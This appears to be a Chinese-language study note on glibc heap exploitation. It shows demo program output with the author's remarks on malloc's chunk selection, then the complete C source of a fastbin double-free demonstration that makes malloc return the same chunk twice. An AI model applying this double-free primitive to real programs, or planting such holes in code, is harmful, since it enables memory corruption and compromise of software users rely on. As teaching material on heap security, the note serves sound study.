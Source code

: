 ```
Freeing the first one...
We don't need to free anything again. As long as we allocate less than 512, it will end up at (nil)
So, let's allocate 500 bytes
3rd malloc(500): 0x2459010
And put a different string here, "this is C!"
3rd allocation 0x2459010 points to this is C!
first allocation (nil) points to (null)
```

但是有一个问题：`If a chunk is free and large enough, malloc will select this chunk.`输出的这句话表示如果存在一个free-chunk并且足够大的话,malloc会优先选取这个chunk.但是不然，我试着把a=256，b=512字节，把a,b都free掉，然后malloc(250)，但是他依然是分配小的a，而不是大的b。这样看来应该遵循下面准则：
+ 会先选大小最合适的最小的bins
+ 会先选最先被malloc而且已经被free的bin

### fastbin_dup
源码：
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}
```
主要利用漏洞：double free
